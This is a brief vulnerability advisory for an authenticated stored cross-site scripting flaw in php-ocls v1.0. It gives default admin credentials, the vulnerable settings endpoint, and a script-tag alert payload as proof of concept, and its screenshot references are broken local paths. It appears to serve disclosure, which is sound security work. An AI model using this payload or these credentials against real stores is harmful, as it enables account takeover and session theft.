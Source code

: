 # php-ocls<=v1.0 Authenticated Stored Cross-Site Scripting(XSS)

## Description

    php-ocls<=v1.0 /php-ocls/classes/SystemSettings.php?f=update_settings interface has a verified xss vulnerability

## source code

    php-ocls<=1.0
    Software Link: https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. login system(default: admin:admin&123)

   /php-ocls/admin/login.php

| ![image-20240816163739350](E:\Desktop\webRay\cve挖掘\cve提交\php-ocls-Arbitrary File Upload.assets\image-20240816163739350.png) |
| ------------------------------------------------------------ |

2. System Information Settings

   input

   ```
   /><script>alert(1);</script>
   ```

| ![image-20240816165315627](E:\Desktop\webRay\cve挖掘\cve提交\php-ocls-Arbitrary Stored Cross-Site Scripting(XSS).assets\image-20240816165315627.png) |
| ------------------------------------------------------------ |

submit

| ![image-20240816165359397](E:\Desktop\webRay\cve挖掘\cve提交\php-ocls-Arbitrary Stored Cross-Site Scripting(XSS).assets\image-20240816165359397.png) |
| ------------------------------------------------------------ |

